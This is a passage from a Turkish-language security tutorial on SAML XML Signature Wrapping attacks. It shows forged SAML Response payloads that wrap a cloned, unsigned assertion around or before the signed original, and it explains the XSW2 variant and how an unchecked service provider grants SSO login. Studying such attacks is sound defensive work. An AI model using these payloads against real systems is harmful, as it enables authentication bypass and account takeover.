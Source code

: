 ```
      </AuthnContext>
    </AuthnStatement>
    <Signature xmlns="http://www.w3.org/2000/09/xmldsig#">
      <!-- Orijinal Signature -->
    </Signature>
  </Assertion>
  <Response>
    <!-- Klonlanmış, imzasız Response kopyası -->
    <Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
    <Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
      <StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
    </Status>
    <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
      <Issuer>https://identity-provider.com</Issuer>
      <Subject>
        <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
        <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
          <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
        </SubjectConfirmation>
      </Subject>
      <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
        <AudienceRestriction>
          <Audience>https://service-provider.com</Audience>
        </AudienceRestriction>
      </Conditions>
      <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
        <AuthnContext>
          <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
        </AuthnContext>
      </AuthnStatement>
    </Assertion>
  </Response>
</Response>
```

Burada sizler için gerçek hayatta karşılaşabileceğiniz bir XML ekledim. Burada yaptığımız şey şu orjinal bir SAML Response isteğinin arkasına sahte bir istek daha ekliyoruz ve bunu yolluyoruz. Bu gönderdiğimiz alan eğer Service tarafından denetlenmiyorsa bizim SSO ile giriş yapmamıza izin veriyor.

- XSW2 :// SAML Response mesajları için geçerlidir. Yanıtın klonlanmış, imzasız bir kopyasını mevcut imzadan önce eklememiz gerekmektedir.

```
<Response xmlns="urn:oasis:names:tc:SAML:2.0:protocol" ID="_d71c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z" Destination="https://service-provider.com/acs">
  <Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
  <Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
    <StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
  </Status>
  <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
    <Issuer>https://identity-provider.com</Issuer>
    <Subject>
      <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
      <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
      </SubjectConfirmation>
```